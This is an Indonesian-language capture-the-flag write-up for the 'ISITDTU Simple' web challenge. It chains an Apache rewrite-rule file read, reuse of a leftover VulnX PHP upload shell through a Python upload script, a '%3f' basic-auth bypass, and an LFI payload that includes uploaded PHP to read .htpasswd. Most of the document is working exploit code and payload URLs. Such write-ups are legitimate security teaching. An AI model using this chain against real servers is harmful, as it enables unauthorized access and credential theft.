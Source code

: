# ISITDTU - Simple - Writeup

Pada challenge ini dihadapkan web yang teridi dari `/about`, `/admin`, `/contact`, kita tidak bisa mengakses admin karena diminta autentikasi yang diatur di `.htaccess` basic Auth. setelah kita bisa melakukan bypass terdapat kerentanan LFI di `/admin`, yang memungkinkan kita membaca flag jika di kombinasikan dengan teknik kerentanan `DocumentRoot Apache`

## Foothold
Ketika mengakses `/about`, maka endpoint akan menjadi `http://host/website-about.doc`, ini dikarenakan adanya rule pada konfigurasi apache, berikut file konfigurasinya.
```
<VirtualHost *:80>
    DocumentRoot /var/www/html/src

    <FilesMatch "\.php$">
        SetHandler  "proxy:unix:/run/php/php7.0-fpm.sock|fcgi://localhost/"
    </FilesMatch>

    <Proxy "fcgi://localhost/" enablereuse=on max=10>
    </Proxy>

    <Directory /var/www/html/src/>
        Options FollowSymLinks
        AllowOverride All
    </Directory>


    RewriteEngine On
    RewriteRule  ^/website-(.*).doc$   /$1.html

    RewriteCond %{REQUEST_METHOD} OPTIONS
    RewriteRule ^(.*)$ $1 [R=200,L]

    ErrorLog ${APACHE_LOG_DIR}/error_php.log
    CustomLog ${APACHE_LOG_DIR}/access_php.log combined

</VirtualHost>
```

kode diatas akan mengambil strings setelah `website-` dan sebelum `.doc`, ini bisa kita manfaatkan untuk melakukan enumerasi pada direktori `/usr/share`, yang mana direkori ini dibuka untuk umum.

berikut payload nya:
```
http://<host>/website-/usr/share/<file-to-read>%3f.doc
````
payload diatas akan membaca file apa saja yang terdapat di mesin target dan menampilkannya dalam response.

untuk melakukan pengumpulan informasi saya mencoba melihat `.bash_history` dari admin dan menemukan hal menarik.

```
git clone https://github.com/anouarbensaad/vulnx.git
cd vulnx/
cd /usr/share/vulnx/
rm -rf vulnx/
cd /usr/share/vulnx/
cat /usr/share/vulnx/shell/uploads/shell.php 
cat /usr/share/vulnx/shell/uploads/shell.php
cd /usr/share/vulnx/
ls /usr/share/vulnx/shell/uploads/shell.html 
ls -la /usr/share/vulnx/shell/uploads/shell.html 
cat /usr/share/vulnx/shell/VulnX.php
cat /usr/share/vulnx/shell/VulnX.php
ls /usr/share/vulnx/shell/VulnX.php
ls /usr/share/vulnx/shell/uploads/
cat /usr/share/vulnx/shell/uploads/shell.html
```

root banyak berinteraksi dengan vulnx pada `/usr/share/vulnx`, berikut isi dari direktorinya.
```
root@4b5fbd0e29e3:/usr/share/vulnx/shell# tree
.
|-- VulnX.gif
|-- VulnX.html
|-- VulnX.php
|-- VulnX.php.mp4
|-- VulnX.php.png
|-- VulnX.txt
|-- VulnX.zip
|-- __init__.py
|-- cat
`-- uploads
    `-- shell.html
```

isi dari VulnX.php
```php
<?php

error_reporting(0);
set_time_limit(0);

if($_GET['Vuln']=="X"){
echo "<center><b>Uname:".php_uname()."<br></b>"; 
echo '<font color="black" size="4">';
if(isset($_POST['Submit'])){
    $filedir = "uploads/"; 
    $maxfile = '2000000';
    $mode = '0644';
    $userfile_name = $_FILES['image']['name'];
    $userfile_tmp = $_FILES['image']['tmp_name'];
    if(isset($_FILES['image']['name'])) {
        $qx = $filedir.$userfile_name;
        @move_uploaded_file($userfile_tmp, $qx);
        @chmod ($qx, octdec($mode));
echo" <a href=$userfile_name><center><b>Uploaded Success ==> $userfile_name</b></center></a>";
}
}
else{
echo'<form method="POST" action="#" enctype="multipart/form-data"><input type="file" name="image"><br><input type="Submit" name="Submit" value="Upload"></form>';
}
echo '</center></font>';

}
?>
```

Berdasarkan kode diatas terdapat fitur uploads yang mana file akan dimasukan ke direktori `uploads`, namun karena hanya image yang diperbolehkan kita tidak bisa melakukan upload shell.

setelah explorasi ditemukan ada `shell.html`, pada direktori `uploads/`
```
root@4b5fbd0e29e3:/usr/share/vulnx/shell/uploads# ls -la
total 20
drwxr-xr-x 1 root root 4096 Aug 29 07:58 .
drwxr-xr-x 1 root root 4096 Aug 29 07:17 ..
-rwxrwxrwx 1 root root  298 Oct 31 06:42 shell.html
```
terlihat dari output diatas `shell.html` memiliki permission read, write, dan execute untuk semua user yang ada, kita bisa melakukan overwrite file `shell.html`, dan menyisipkan script php untuk membaca flag yang terdapat di `.htpasswd`, berikut script untuk melakukan overwrite shell.html.

```python
import requests

URL = 'http://localhost:8081/'
path = '/usr/share/vulnx/shell/VulnX.php%3fVuln=X&'
data2 = f'website-{path}.doc'
file_path = "shell.html"
files = {
    'image': open(file_path, 'rb')
}
data = {
    'Submit': 'Upload'
}
response = requests.post(URL+data2, files=files, data=data)
print(response.text)
```
isi shell.html
```php
<?php
// Membaca isi file .htpasswd
$file_path = "/.htpasswd"; // Pastikan path ke .htpasswd sesuai
if (file_exists($file_path)) {
    echo "<pre>" . htmlspecialchars(file_get_contents($file_path)) . "</pre>";
} else {
    echo "File .htpasswd tidak ditemukan atau tidak memiliki izin akses.";
}
?>
```
lalu, setelah berhasil melakukan overwrite kita harus melakukan bypass endpoint `/admin`, yang mengharuskan kita untuk ter-autentikasi dengan basic Auth, yang di konfigurasi di `.htaccess`, untuk bypassny bisa dilakukan dengan cara berikut:
```
http://<host>/admin.php%3foo.php
```
dan berikut kode dari admin.php
```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Admin Page</title>
</head>
<body>
    <h1>Welcome to the Admin Page</h1>

<?php 
error_reporting(0);

if (isset($_GET['pages']) && !empty($_GET['pages']))
{
	$page = "./pages/" . $_GET['pages'] . ".html";
    echo $page;
	include($page);
}
else
{
	echo '<a href="?pages=1"> Link </a>';
}
?>
</body>
</html>

```

karena ada kerentanan LFI kita bisa memanfaatkan itu untuk mengakses shell.html dan mendapatkan flag, berikut payload nya

```
http://<host>/admin.php%3foo.php?pages=pages=../../../../../usr/share/vulnx/shell/uploads/shell
```

Sekian Terimakasih